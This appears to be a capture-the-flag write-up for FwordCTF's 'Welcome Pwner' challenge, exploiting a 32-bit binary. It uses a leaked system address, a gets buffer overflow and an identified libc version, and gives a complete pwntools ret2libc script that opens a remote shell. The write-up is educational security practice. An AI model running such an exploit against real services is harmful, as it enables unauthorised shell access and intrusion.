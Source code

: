 # Welcome Pwner

> Points:   374
>Author :   haflout

> something to warm you up.
> nc 54.210.217.206 1240

Files provided:
 - molotov: ELF32 file.

First of all start by executing `molotov`:
```sh
$ nc 54.210.217.206 1240
f7dbc8b0
Input : 
AAAA

$ nc 54.210.217.206 1240
f7d868b0
Input : 
AAA

$ nc 54.210.217.206 1240
f7d898b0
Input : 
AAAA
```
Uhm...the first line seems to be a 32-bit address. if so, the address changes on every run (it probably means that ASLR is enabled.

`checksec` analysis:
```sh
$ checksec --file=molotov
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   76) Symbols       No    0               2               molotov
```

Then use `ghidra`. This is `main`:

![main](img/screen_001.png)

This is `vuln`:

![vuln](img/screen_002.png)

by analyzing `vuln` we can desume a lot of things:

 - The address shown is `system` address.
 - User input is received by `gets`, so we can use it to cause a buffer overflow
 - `canary` protection is disabled, so we can cause a buffer overflow easily.

So we can perform a `ret2libc` attack, but we still don't have everything we need. `ret2libc` requirements:

- `system` address (we have it).
- `exit` address (it isn't necessary in this case).
- `"/bin/sh"` address.

We don't have `"/bin/sh"` address but we can try to desume it. There is an [Online Tool](https://libc.rip/) that try to find the correct libc version by starting from a known address (in this case `system` address).

There are several possible `libc`, but by testing them, i found the correct one: `libc6_2.30-0ubuntu2_i386`

These are the offsets we need:
```sh
str_bin_sh	0x19042d
system	  	0x458b0
```

So now, we can write our exploit:
```python
from pwn import *

#r = process("./molotov")
r = remote("54.210.217.206",1240)

system_address = int(r.recvline()[:-1],16)

#current libc: libc6_2.30-0ubuntu2_i386
#if you want to try others libc versions, change offsets.
system_offset = 0x458b0		
bin_sh_offset = 0x19042d

#creating payload
payload = "A"*32
payload += p32(system_address)
payload += "AAAA"
payload += p32(system_address-system_offset+bin_sh_offset) #address of /bin/sh

r.sendlineafter("Input :", payload )

#switching to interactive mode. If exploit is correct, we'll get a shell.
r.interactive()
```


This is the result:
```sh
$ python exploit.py
[+] Opening connection to 54.210.217.206 on port 1240: Done
[*] Switching to interactive mode
 
$ ls
flag.txt
molotov
ynetd
$ cat flag.txt
FwordCTF{good_j0b_pwn3r}
```


So, the flag is `FwordCTF{good_j0b_pwn3r}`.

